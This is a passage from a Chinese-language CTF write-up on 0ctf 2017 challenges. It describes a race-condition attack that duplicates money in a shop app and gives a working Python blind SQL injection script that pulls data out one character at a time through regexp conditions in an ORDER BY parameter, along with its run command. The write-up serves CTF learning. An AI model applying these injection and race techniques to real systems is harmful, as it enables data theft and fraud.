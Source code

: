 Login请求用于查询到用户名和钱包余额，goods请求用于查询用户有多少物品

假设login访问的是wallet数据库，goods访问的是goods数据库。

操作：

1. 登陆：创建session，访问两个数据库，将信息保存在session中

2. 买入：查询wallet数据库，查询goods数据库，update goods数据库，update wallet数据库

3. 卖出：查询wallet数据库，查询goods数据库，update wallet数据库，update goods数据库

攻击流程

1. Cookie1登录，获得钱0和物品信息1，保存在session中
2. Cookie2登录，获得钱0和物品信息1，保存在session中
3. Cookie1进行卖出，在cookie1用户更新wallet表后，更新goods表前，cookie2用户进行卖出。此时，cookie2看到的wallet钱已经变多，而goods数量还没减少，刷钱成功。

### 用正则获得数据

> 这是学习一个日本小哥的WP学习到的思路，颠覆了我对sql盲注的概念

[https://st98.github.io/diary/posts/2017-03-20-0ctf-2017-quals.html](https://st98.github.io/diary/posts/2017-03-20-0ctf-2017-quals.html)

payload如下

```python
import requests
import sys

def check(s):
  if 'WAF' in s:
    raise Exception('WAF~><')
  if 'login plz' in s:
    raise Exception('login plz~><')
  return 'suc' in s

url = 'http://202.120.7.197/app.php?action=search&keyword=_&order=cot(if((%s)regexp(0x%s),1,0))'

print url % (sys.argv[1], sys.argv[2].encode('hex'))
print check(requests.get(url % (sys.argv[1], sys.argv[2].encode('hex')), cookies={
  'PHPSESSID': 'xxx'
}).content)
```

```
python2 s.py "select(substr(flag,4,1))from(ce63e444b0d049e9c899c9a0336b3c59)" "[a-z]"
```

这样就能依次通过正则获得数据了,姿势非常优雅

![rce](https://mo-xiaoxi.github.io/img/post/0ctf/rce.png)



## simplesqlin
